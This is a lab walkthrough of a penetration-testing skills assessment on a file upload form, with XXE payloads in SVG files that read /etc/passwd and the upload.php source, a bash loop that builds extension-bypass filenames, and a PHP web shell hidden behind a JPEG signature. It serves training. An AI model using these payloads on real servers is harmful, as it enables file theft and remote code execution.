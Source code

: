 # Skills Assessment

#### You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

***



For this Skills Assessment we have a web application with some default content, and we have to test the upload screenshot feature to test if there is any vulnerability.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

The main focus of this assessment is this page. We can access it by clicking in **Contact Us**. To capture the essential requests we don't need to actually submit the data, just press the green and black button above.

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

The POST Request should look something like this. And as we can see from the Response, we don't have  an actual storage location of the image.

Since we got a **base64** encoded string from the Response, we can try if we can retrieve the upload.php script from the server, and see where the images are being saved.

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Just by modifying the filename with a **.svg** extension we can execute XML code on the backend. Fortunately the the application does not have any protection to this and as we can see from the output above we manage to get the /etc/passwd with this code:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Since we confirmed the web application is vulnerable to XXE, we can use this to read the web application's source files:

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}

Now all we have to do is decode the **base64** string and hope that we got the source code of the upload.php file.

We can use the following command to do it:

```bash
echo "base64_string" | base64 --decode
```

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

We manage to read the **upload.php** script! The **$target\_dir** indicates where the images are being saved. Also notice that the **$fileName** gives us an important information, the dog.jpeg is renamed to **currentdate\_dog.jpeg** once gets uploaded to the server. This important in order to try to reach the image.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

And we manage to get the actual image URL. It should look something like this:

**`http://SERVER_IP:PORT/contact/hiddenpath/currentdate_filename.ext`**

\
Now lets try to bypass any image upload filtering.

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

We can use the same request used previously, we send it to the Intruder and made the following changes:

Add the selection to the filename

Keep the **ÿØÿà** - this is the ÿØÿà that will make the server read the content as a jpg file

Add the \<?php echo "shell test";?> to test the code execution

Create a word list with the following code:

```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do                      
    for ext in '.jpeg' '.jpg'; do
        echo "shell$char$ext.svg" >> wordlist.txt
        echo "shell$ext$char.svg" >> wordlist.txt
        echo "shell.svg$char$ext" >> wordlist.txt
        echo "shell.svg$ext$char" >> wordlist.txt
    done
done
```

Lastly, make sure to disable URL encoding and launch the attack.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

With this Request format we should look to the ones with a lenght over 366. In this case we select the **shell.phar:.jpg**.



<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

And the PHP code was executed!

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Now, lets send the same Request to the Repeater and make an actual shell.&#x20;

Add the **shell.phar:.jpg** to the filename and `<?php system($_REQUEST['cmd']); ?>` after the **ÿØÿà** signature and send it!

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

We add the **?cmd=id** to the URL and we are able to successfully execute a command!

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Now we just have fun wandering around to look for the flag and eventually made it!

